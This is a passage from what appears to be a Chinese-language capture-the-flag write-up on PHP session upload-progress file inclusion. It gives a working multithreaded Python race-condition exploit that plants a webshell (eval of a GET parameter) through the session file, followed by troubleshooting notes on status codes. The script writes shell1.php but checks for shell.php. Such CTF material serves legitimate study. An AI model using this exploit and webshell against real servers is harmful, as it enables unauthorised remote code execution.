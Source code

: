 ```python
import io
import requests
import threading
# 如果题目链接是https，换成http
# url = 'https://85a94ccd-c8d7-40ac-ae8f-38ce8f7febb6.challenge.ctf.show/'
url = 'http://85a94ccd-c8d7-40ac-ae8f-38ce8f7febb6.challenge.ctf.show/'
sessionid = 'ctfshow'

def write(session): # 写入临时文件
    while True:
        fileBytes = io.BytesIO(b'a'*1024*50) # 50kb
        session.post(url,
        cookies = {'PHPSESSID':sessionid},
        data = {'PHP_SESSION_UPLOAD_PROGRESS':'<?php file_put_contents("shell1.php","<?php highlight_file(__FILE__);eval(\$_GET[1]);?>");?>'},
        files={'file':('1.jpg',fileBytes)}
        )

def read(session):
    while True:
        session.get(url + '?1=/tmp/sess_' + sessionid) # 进行文件包含
        r = session.get(url+'shell.php') # 检查是否写入一句话木马
        if r.status_code == 200:
            print('OK')
            return ''

evnet=threading.Event() # 多线程

session = requests.session()
for i in range(5):
    threading.Thread(target = write,args = (session,)).start()
for i in range(5):
    threading.Thread(target = read,args = (session,)).start()

evnet.set()
```

最后好奇的查看/tmp目录下的文件，看到一些奇怪的php开头的文件名，里面内容是ctfshow
![5](https://the0n3.top/medias/session-include/5.png)

根据开头这张图就可以解释这些文件名是什么了，session文件包含进来时，显示一个序列化的数组数据，这些php开头的文件是临时文件名
![4](https://the0n3.top/medias/session-include/4.png)


## 关于报错

### 长时间未写入

::: tip
检查脚本中参数是否服务题目要求
:::

### 常见错误码

- 404：shell未写入，耐心等 
- 500：shell写入了，但是存在语法错误。查看修改过程是否删掉了关键部分  
- 200：成功写入  

::: tip 状态码500的补救措施  
修改脚本中的sessionid，shell文件名，接着跑。创建一个新的shell
:::